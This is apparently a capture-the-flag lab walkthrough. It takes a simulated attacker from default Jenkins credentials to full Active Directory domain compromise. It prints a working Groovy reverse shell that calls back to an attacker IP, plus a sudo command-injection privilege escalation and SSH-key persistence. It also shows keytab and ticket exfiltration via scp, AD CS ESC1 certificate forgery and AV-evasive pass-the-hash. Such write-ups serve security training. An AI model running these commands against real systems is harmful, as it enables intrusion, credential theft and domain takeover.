





This engagement simulates an external attacker progressing from an initial foothold on a Linux server to full Domain Administrator privileges over an Active Directory environment. The attack path involves exploiting a misconfigured Jenkins instance, pivoting through Kerberos credentials stored on the Linux host, and ultimately abusing vulnerable Active Directory Certificate Services (AD CS) templates to compromise the domain.
In-Scope Targets:
I started with a full port scan against the Ubuntu server using Nmap:
$ nmap -p- -T4 -sC -sV 10.1.167.185 -oN nmap_scan_ubuntuPORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
8080/tcp open http Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry
|_/Key findings:
$ nmap -p- -T4 -sC -sV -Pn 10.1.111.50 -oN nmap_scan_DCPORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: anomaly.hsm)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
636/tcp open ssl/ldap
3269/tcp open ssl/ldap
3389/tcp open ms-wbt-server (RDP)
9389/tcp open mc-nmf .NET Message FramingKey findings from the scan:
anomaly.hsmANOMALY-DCBrowsing to port 8080 on the Ubuntu server revealed a Jenkins login page. I tested default credentials and successfully authenticated with admin:[REDACTED].
After logging in, I navigated to Manage Jenkins and accessed the Script Console.

The Script Console allows execution of arbitrary Groovy code. I used a Groovy reverse shell payload while running a netcat listener on my attack machine:
$ nc -nvlp 9001String host="10.200.26.123";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();po.flush();Thread.sleep(50);
try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();s.close();listening on [any] 9001 ...
connect to [10.200.26.123] from (UNKNOWN) [10.1.167.185] 45432> whoami
jenkinsI upgraded the basic shell to a fully interactive TTY:
> python3 -c 'import pty; pty.spawn("/bin/bash")'Background the shell with Ctrl+Z, then:
$ stty raw -echo; fgPress Enter twice, then:
$ export SHELL=/bin/bash
$ export TERM=xterm-256colorCtrl+C.
jenkins@ip-10-1-167-185:~$ sudo -l
User jenkins may run the following commands on ip-10-1-167-185:
(ALL) NOPASSWD: /usr/bin/router_configThe jenkins user can run /usr/bin/router_config as root without a password.
The router_config binary is vulnerable to command injection. I exploited it by injecting a bash command:
jenkins@ip-10-1-167-185:~$ sudo /usr/bin/router_config 'test; /bin/bash'
Welcome to Router Configuration Utility v1.2
Applying configuration...
Applying config from test# whoami
rootrouter_config binary likely uses the input in a command like echo $input without proper sanitization. The semicolon terminates the first command, and /bin/bash spawns a root shell.
User flag obtained from /root/.
For easier access, I added my SSH public key to the root user's authorized_keys:
# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAbgzJ34oT7llfAY49W+qFJJ2JG7HSod9qQPr33tkwH6 kali@kali" >> /root/.ssh/authorized_keysNow I could SSH directly as root:
$ ssh -i ~/.ssh/id_ed25519 root@10.1.167.185
root@ip-10-1-167-185:~#Since both machines are in scope and likely connected, I searched for Active Directory integration artifacts on the Ubuntu server.
# find / -name "*keytab*" -ls 2>/dev/null
34876 4 -rw-r--r-- 1 root root 80 Sep 21 22:36 /etc/krb5.keytab# klist -k -t /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Timestamp Principal
---- ----------------- --------------------------------------------------------
0 01/01/70 00:00:00 Brandon_Boyd@ANOMALY.HSMI found a keytab for the domain user Brandon_Boyd.
# kinit Brandon_Boyd@ANOMALY.HSM -k -t /etc/krb5.keytab
# klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: Brandon_Boyd@ANOMALY.HSM
Valid starting Expires Service principal
12/30/25 10:06:18 12/30/25 20:06:18 krbtgt/ANOMALY.HSM@ANOMALY.HSM
renew until 12/31/25 10:06:18I transferred the credential cache and keytab to my attack machine:
# scp -P 2222 /tmp/krb5cc_0 kali@10.200.26.123:/tmp/
# scp -P 2222 /etc/krb5.keytab kali@10.200.26.123:/tmp/Using keytabextract.py from KeyTabExtract, I extracted the AES256 hash:
$ python3 keytabextract.py /tmp/krb5.keytab
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[+] Keytab File successfully imported.
REALM : ANOMALY.HSM
SERVICE PRINCIPAL : Brandon_Boyd/
AES-256 HASH : [REDACTED]I set up my attack machine to use the stolen credential cache:
$ export KRB5CCNAME=/tmp/krb5cc_0
Using NetExec with Kerberos authentication, I enumerated domain users:
$ nxc smb 10.1.111.50 -u Brandon_Boyd --use-kcache --users-Username- -Last PW Set- -BadPW- -Description-
Administrator 2025-09-17 12:01:03 0 Built-in account for administering the computer/domain
Guest <never> 0 Built-in account for guest access
krbtgt 2025-09-21 11:54:56 0 Key Distribution Center Service Account
Brandon_Boyd 2025-11-12 20:30:05 0 [REDACTED]
anna_molly 2025-11-12 20:29:16 0The description field for Brandon_Boyd contained a password: [REDACTED].

$ nxc smb 10.1.111.50 -u Brandon_Boyd -p '[REDACTED]'
SMB 10.1.111.50 445 ANOMALY-DC [+] anomaly.hsm\Brandon_Boyd:[REDACTED]I collected Active Directory data for BloodHound analysis:
$ nxc ldap 10.1.111.50 -u Brandon_Boyd -p '[REDACTED]' --bloodhound --collection All --dns-server 10.1.111.50BloodHound analysis did not reveal any direct privilege escalation paths, so I pivoted to checking for AD CS vulnerabilities.
Using Certipy, I scanned for vulnerable certificate templates:
$ certipy find -u Brandon_Boyd@anomaly.hsm -p '[REDACTED]' -dc-ip 10.1.111.50 -vulnerableKey findings from the Certipy output:
Certificate Templates
Template Name : CertAdmin
Client Authentication : True
Enrollee Supplies Subject : True
Certificate Name Flag : EnrolleeSuppliesSubject
Permissions
Full Control Principals : ANOMALY.HSM\Domain Computers
Write Owner Principals : ANOMALY.HSM\Domain Computers
Write Dacl Principals : ANOMALY.HSM\Domain Computers
[!] Vulnerabilities
ESC1 : Enrollee supplies subject and template allows client authentication.
ESC4 : User has dangerous permissions.The CertAdmin template is vulnerable, and Domain Computers have the necessary permissions to exploit it.
Using NetExec:
$ nxc ldap 10.1.111.50 -u Brandon_Boyd -p '[REDACTED]' -M maq
MAQ 10.1.111.50 389 ANOMALY-DC MachineAccountQuota: 10ms-DS-MachineAccountQuota attribute. Attackers exploit this to create computer accounts they fully control.
Using Impacket:
$ impacket-addcomputer -computer-name 'BRANDON-PC$' -computer-pass 'Zerotrace123!' \
ANOMALY.HSM/Brandon_Boyd:'[REDACTED]' -dc-ip 10.1.111.50
[*] Successfully added machine account BRANDON-PC$ with password Zerotrace123!.Verification:
$ nxc smb 10.1.111.50 -u 'BRANDON-PC$' -p 'Zerotrace123!'
SMB 10.1.111.50 445 ANOMALY-DC [+] anomaly.hsm\BRANDON-PC$:Zerotrace123!Using Certipy, I first attempted to impersonate the Administrator account, but authentication failed (likely disabled or restricted):
$ certipy req -u 'BRANDON-PC$@ANOMALY.HSM' -p 'Zerotrace123!' \
-dc-ip 10.1.111.50 -target 'ANOMALY-DC.anomaly.hsm' \
-ca 'anomaly-ANOMALY-DC-CA-2' -template CertAdmin \
-upn 'administrator@anomaly.hsm' -sid 'S-1-5-21-1496966362-3320961333-4044918980-500'$ certipy auth -pfx administrator.pfx -dc-ip 10.1.111.50
[-] Got error while trying to request TGT: KDC_ERR_CLIENT_REVOKEDThe KDC_ERR_CLIENT_REVOKED error indicates the Administrator account is disabled or locked.
Using BloodHound, I identified another Domain Admin: anna_molly.

Using Certipy:
$ certipy req -u 'BRANDON-PC$@ANOMALY.HSM' -p 'Zerotrace123!' \
-dc-ip 10.1.111.50 -target 'ANOMALY-DC.anomaly.hsm' \
-ca 'anomaly-ANOMALY-DC-CA-2' -template CertAdmin \
-upn 'anna_molly@anomaly.hsm' -sid 'S-1-5-21-1496966362-3320961333-4044918980-1105'
[*] Successfully requested certificate
[*] Got certificate with UPN 'anna_molly@anomaly.hsm'
[*] Wrote certificate and private key to 'anna_molly.pfx'$ certipy auth -pfx anna_molly.pfx -dc-ip 10.1.111.50
[*] Got TGT
[*] Saving credential cache to 'anna_molly.ccache'
[*] Got hash for 'anna_molly@anomaly.hsm': aad3b435b51404eeaad3b435b51404ee:[REDACTED]
Since the Domain Controller has active antivirus, I used wmiexec2, an obfuscated version of wmiexec designed to evade detection.
Tool: wmiexec2 on GitHub
$ python3 wmiexec2.py anomaly.hsm/anna_molly@10.1.111.50 \
-hashes aad3b435b51404eeaad3b435b51404ee:[REDACTED]
[*] SMBv3.0 dialect used
[*] Launching wmiexec2
C:\>C:\> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
[FLAG REDACTED]Jenkins (Default Creds: admin:[REDACTED])
|
v
Groovy RCE --> jenkins user shell
|
v
sudo router_config --> Command Injection --> root on Ubuntu
|
v
Kerberos Keytab --> Brandon_Boyd credentials
|
v
User Description Field --> Brandon_Boyd password
|
v
AD CS ESC1 (CertAdmin template) + Machine Account Quota
|
v
Add Computer Account --> Request cert as anna_molly (Domain Admin)
|
v
UnPAC-the-Hash --> anna_molly NTLM hash
|
v
Pass-the-Hash (wmiexec2 for AV evasion) --> Domain ControllerWalkthrough by Zerotrace | HackSmarter Labs